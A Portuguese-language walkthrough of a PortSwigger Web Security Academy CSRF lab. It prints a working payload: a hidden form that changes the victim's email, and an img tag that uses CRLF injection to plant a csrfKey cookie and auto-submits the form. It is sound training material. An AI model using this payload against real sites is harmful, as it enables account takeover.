 Nesse Laboratório também encontramos um token `csrf` que é usado para verificar se a requisição é válida e a alteração dele faz com que a requisição seja rejeitada pelo back-end.

A diferença desse laboratório para o anterior é que o token `csrf` está vinculado a um cookie `csrfKey` que é gerado quando o usuário loga no site.

Porém, o cookie `csrfKey` não é vinculado a sessão do usuário, e por isso, podemos copiar o cookie `csrfKey` e enviar para o back-end através de um script:

```html

    <form method="POST" action="https://0acc00e804f49a5dc05ec9c900fc0033.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
        <input type="hidden" name="csrf" value="5797GniNjfmRDZaYUXB1UbXhFq35CTgB">
    </form>
    <img src="https://0acc00e804f49a5dc05ec9c900fc0033.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=xwoZAxsjGsrsGHldRjZw4TsCTNul3FpT%3b%20SameSite=None" onerror="document.forms[0].submit()">

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos dois campos de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar, e o `name="csrf"` com o token `csrf` que copiamos da requisição interceptada.

Além disso, temos uma tag `<img>` que faz uma requisição para o back-end com o parâmetro `search` no valor **"test"** e com o cookie `csrfKey` com o valor **"xwoZAxsjGsrsGHldRjZw4TsCTNul3FpT"**.

A tag `<img>` faz com que o cookie `csrfKey` seja enviado para o back-end, e o `onerror` faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![server](cookie_server.png)

E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](cookie_concluido.png)

---